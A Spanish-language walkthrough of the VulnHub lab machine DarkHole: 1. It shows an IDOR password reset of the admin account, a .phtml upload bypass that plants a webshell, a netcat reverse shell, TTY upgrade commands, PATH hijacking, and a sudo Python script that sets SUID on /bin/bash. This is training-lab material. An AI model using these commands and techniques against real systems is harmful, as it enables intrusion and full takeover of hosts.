

# VulnHub - DarkHole: 1 Writeup

## Primer paso: Excaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```


En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0.0-255
```


Encuentra tres IPs:

- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.129: Es la única máquina que queda, además tiene abiertos los puertos 22 y 80 (ssh y una página web)

## Obtener reverse web shell
Si introducimos en un navegador 192.168.226.129 podremos ver la página


Esta página tiene un panel de login y para registrarse:


Al ingresar con el usuario creado, podremos ver que se puede cambiar el nombre de usuario, correo y contrseña.


Podría ser interesante interceptar las peticiones con BurpSuite. Al interceptar el cambio de nombre de usuario y de email no hay nada interesante. Sin embargo, la petición de cambio de contraseña es:


Se puede ver que cambia la contraseña con password=1, pero añade un &id=2. Al modificar el id a 1 podríamos cambiar la contraseña de otro usuario.

Como sólo hay dos usuarios con dos ids, se puede suponer que el usuario con el id 1 es el administrador.

Probamos con el usuario admin y la contraseña que le hemos puesto y accedemos a otro panel de control:


El usuario admin puede subir archivos, probamos a subir un .php con una shell.

Sin embargo, no nos dejará subir un archivo con la extensión .php


.php no es la única extensión capaz de hacer que el servidor ejecute el lenguaje php, probaremos con .phtml


Si el php se ha ejecutado correctamente, debe aparecer como la siguiente imagen al añadir un comando a la url con ?cmd=


Ahora tenemos acceso a la webshell, vamos a decirle que se conecte a nuestra shell.

Antes de nada, desactivamos le cortafuegos del dispositivo y el proxy del navegador


Después, ponemos una consola en escucha.

```bash
sudo nc -nlvp 443
```



Y le decimos a la web que se conecte a nuestro puerto descargando, subiendo y accediento al siguiente archivo php [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](Archivo PHP)

Donde debemos cambiar la IP por nuestra IP y el puerto por el que hayamos puesto en el comando nc.


Ya tenemos la reverse web shell, ahora hay que convertirla en TTY. Como se puede ver, la consola muestra el mensaje "can't access tty".


Ejecutamos los siguientes comandos:
1. Creamos un terminal normal.
```bash
script /dev/null -c bash
```
2. Ctrl+z: Suspendemos la consola anterior.
3. Configuramos el terminal en modo crudo (para que no procese caracteres especiales y tome nuestra entrada tal y como se la proporcionamos) y desactiva echo (no muestra los caracteres por pantalla). Luego recupera el proceso suspendido más reciente.
```bash
stty raw -echo; fg
```
4. Reestablecemos el terminal.
```bash
reset xterm
```

Y al comprobar si estamos operando una tty nos devolverá que sí:


## Escalar privilegios
Enumeramos los usuarios:

```bash
ls -l
```


El directorio del usuario darkhole está vacío.

Vemos que john tiene archivos de contraseñas y usuario, pero no son accesibles desde el usuario www-data que somos ahora mismo.


El archivo más interesante es toto, que ejecuta con permisos de root. Al ejecutarlo, vemos que ejecuta el comando id.

En el caso de que esté ejecutando id sin su ruta absoluta, se puede realizar un path hijacking:
1. echo "bash -p" > /tmp/id
2. export PATH=/tmp:$PATH

Con esto, hacemos que si alguien ejecuta el comando "id", el sistema busque qué debe hacer primero en /tmp y, al encontrar nuestro archivo "id" antes que los demás, ejecute "bash -p"

Ahora, al ejecutar ./toto, dejaremos de ser el usuario www-data y seremos el usuario john:


Tenemos acceso a los archivos user.txt y password.


Listamos lo que puede ejecutar john como root para ver si se puede vulnerar.


john puede ejecutar como root el archivo file.py. Se usará para escalar privilegios.

Nos conectamos por ssh para poder editarlo fácilmente usando nano y los atajos de teclado:

```bash
ssh john@192.168.226.129
```

Y de contraseña root123

Escribimos en el archivo el siguiente código
```
import os

os.system("chmod u+s /bin/bash")
```

Para que cualquier usuario pueda ejecutar el terminal de root. Y lo ejecutamos:


Cambiamos la consola con 

```bash
bash -p
```


Y comprobamos el usuario que somos

```bash
whoami
```


Por último, accedemos a la flag

